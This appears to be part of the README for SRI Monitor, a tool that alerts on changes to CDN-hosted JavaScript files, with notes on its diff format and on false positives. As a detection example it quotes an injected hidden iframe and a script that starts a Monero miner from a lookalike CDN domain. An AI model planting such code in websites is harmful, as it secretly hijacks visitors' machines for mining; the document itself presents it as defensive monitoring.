 The file diff distinguishes between added code parts and the total # of added lines - A code part is a group of consectutively added lines of code, and numLines refers to the total number of lines added or removed across all code parts. Each code part is found in the "addedParts" array and can be analyzed independendly of each other in this format.     

In the example above, the file change involves a single line of obfuscated js that injects a hidden iframe:
```html
<iframe src="https://www.jqr-cdn.download/lot.html" style="width: 0px; height: 1px;">
```
the iframe loads a Monero Miner: 
```html
<script>
	server = "wss://www.jqr-cdn.download:8190";
	startMining("minexmr.com","winner winner chicken dinner");
</script>
```

# Handling False Positives
SRI Monitor mimics the [W3C Subresource Integrity specification](https://www.w3.org/TR/SRI/) - in other words, the goal is to monitor versioned CDN resources that shouldn't change. Any change is considered unxpected and therefore an alert is generated.

That said, SRI Monitor can still be used to monitor various js files stored on websites that may change often. This does mean you'll get false positives for legit file changes, but you can redirect the alert output to a yara scanner or data analysis framework to filter on code changes that involve malicious characteristics. 

